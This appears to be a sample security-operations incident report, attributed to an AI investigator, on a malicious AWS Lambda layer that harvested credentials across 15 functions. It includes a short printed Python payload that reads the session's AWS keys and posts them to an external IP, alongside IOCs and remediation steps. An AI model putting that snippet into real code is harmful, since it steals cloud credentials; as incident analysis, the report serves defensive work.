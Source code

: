 # Investigation: Malicious Lambda Layer Detection

---
**Alert ID**: SOC-2025-0905-001  
**Investigation ID**: sturdy-playful-pineapple  
**Start Time**: 2025-09-05 09:30:00 UTC  
**End Time**: 2025-09-05 10:15:00 UTC  
**Investigator**: Claude Code v4  
**Status**: Complete  
---

## Executive Summary

**Classification**: 🔴 **MALICIOUS**  
**Confidence**: High (85%)  
**Original Severity**: Critical  
**Assessed Severity**: Critical  

**Key Finding**: Lambda layer containing malicious Python package discovered in production AWS account. Layer was used across 15 Lambda functions to establish persistence and credential harvesting capability.

**Immediate Actions Required**:
- [ ] Quarantine all Lambda functions using layer `arn:aws:lambda:us-east-1:123456789012:layer:utils-v2:7`
- [ ] Rotate all IAM credentials accessed by affected functions
- [ ] Review CloudTrail for lateral movement attempts

## Timeline

| Time | Event | Source |
|------|-------|---------|
| 09:15 | Lambda layer created with suspicious name similarity to legitimate layer | CloudTrail |
| 09:18 | Layer attached to 15 production Lambda functions | CloudTrail |
| 09:25 | Unusual outbound network connections detected | VPC Flow Logs |
| 09:27 | Alert triggered on anomalous Lambda layer usage | GuardDuty |

## Investigation Process

### 1. Initial Alert Analysis
**Tool Used**: `scanner_query`  
**Query**: `source_type:aws-guardduty AND finding_type:Trojan:Lambda/MaliciousLayer`
**Findings**: Single GuardDuty finding indicating suspicious Lambda layer with high confidence score

### 2. Layer Content Analysis  
**Tool Used**: `aws_lambda_get_layer`  
**Parameters**: `layer_arn: arn:aws:lambda:us-east-1:123456789012:layer:utils-v2:7`
**Findings**: 
- Layer contains obfuscated Python code
- Base64 encoded strings detected
- Import statements for `boto3`, `requests`, `socket`

### 3. Network Activity Investigation
**Tool Used**: `scanner_query`  
**Query**: `source_type:vpc-flow-logs AND src_account:123456789012 AND time_range:last_2h`
**Findings**:
- 47 outbound connections to 185.234.72.45:443
- Data exfiltration pattern: 2.3MB uploaded
- Connections from Lambda execution IPs

### 4. Impact Assessment
**Tool Used**: `aws_lambda_list_functions`  
**Parameters**: `layer_arn: arn:aws:lambda:us-east-1:123456789012:layer:utils-v2:7`
**Findings**: 15 Lambda functions using malicious layer across 3 different services

## Technical Details

### Malicious Layer Analysis
```python
# Deobfuscated payload excerpt
import base64, boto3, requests

def harvest_creds():
    session = boto3.Session()
    credentials = session.get_credentials()
    payload = {
        'access_key': credentials.access_key,
        'secret_key': credentials.secret_key,
        'session_token': credentials.token
    }
    requests.post('https://185.234.72.45/exfil', json=payload)
```

### Network IOCs
- **C2 Server**: 185.234.72.45:443
- **User-Agent**: `python-requests/2.28.1`
- **Exfil Pattern**: JSON POST requests every 5 minutes

## Threat Assessment

**MITRE ATT&CK Mapping**:
- T1543.003 - Create or Modify System Process: Serverless Execution
- T1078.004 - Valid Accounts: Cloud Accounts  
- T1567.002 - Exfiltration Over Web Service

**Threat Actor Profile**: 
- Sophisticated understanding of AWS Lambda layers
- Focus on credential harvesting for lateral movement
- Well-resourced (dedicated C2 infrastructure)

## Recommendations

### Immediate (0-4 hours)
1. **Quarantine Functions**: Remove malicious layer from all 15 affected Lambda functions
2. **Credential Rotation**: Rotate IAM keys for all roles used by affected functions
3. **Network Blocking**: Block 185.234.72.45 at WAF/firewall level

### Short-term (1-7 days)  
1. **Layer Validation**: Implement Lambda layer integrity checking
2. **Monitoring Enhancement**: Add alerts for unusual layer attachment patterns
3. **Incident Response**: Full forensic analysis of affected systems

### Long-term (1-4 weeks)
1. **Policy Updates**: Require approval workflow for new Lambda layers
2. **Security Training**: Developer education on supply chain attacks
3. **Architecture Review**: Minimize Lambda IAM permissions

## Lessons Learned

1. **Layer Oversight Gap**: No visibility into Lambda layer contents before deployment
2. **Monitoring Blind Spot**: Layer attachment events not adequately monitored  
3. **Rapid Impact**: Single malicious layer affected 15 functions within minutes

---
*Investigation completed by Claude Code. Human review and validation recommended before implementing recommendations.*